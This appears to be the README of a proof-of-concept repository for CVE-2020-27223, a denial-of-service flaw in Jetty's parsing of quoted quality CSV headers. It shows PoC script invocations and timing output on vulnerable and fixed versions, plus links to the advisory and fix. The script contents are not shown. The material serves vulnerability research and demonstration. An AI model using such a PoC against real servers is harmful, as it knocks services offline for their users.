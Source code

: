 # CVE-2020-27223

## Using

```
$ mvn spring-boot:run
```

### 9.4.36.v20210114

```
$ ./poc/cve-2020-27223-poc1.sh
{"time_ns":"58,557","accept_language":"aab"}
real	0m0.093s 🐇
user	0m0.006s
sys	0m0.007s
{"time_ns":"18,461,763,438","accept_language":"ahn"}
real	0m35.339s 🐢
user	0m0.006s
sys	0m0.006s
```

### 9.4.37.v20210219 (Fixed)

```
$ ./poc/cve-2020-27223-poc1.sh
{"time_ns":"36,675","accept_language":"aab"}
real	0m0.023s 🐇
user	0m0.005s
sys	0m0.007s
{"time_ns":"1,265,004","accept_language":"ahn"}
real	0m0.024s 🐇
user	0m0.006s
sys	0m0.006s
```

## PoC

```
$ ./poc/cve-2020-27223-poc2.sh
curl: (28) Operation timed out after 120000 milliseconds with 0 bytes received

real	2m0.025s
user	0m0.016s
sys	0m0.009s
```

## References

- [DOS vulnerability for Quoted Quality CSV headers · Advisory · eclipse/jetty.project](https://github.com/eclipse/jetty.project/security/advisories/GHSA-m394-8rww-3jr7)
- [Merge pull request from GHSA-m394-8rww-3jr7 · eclipse/jetty.project@10e5317](https://github.com/eclipse/jetty.project/commit/10e531756b972162eed402c44d0244f7f6b85131)
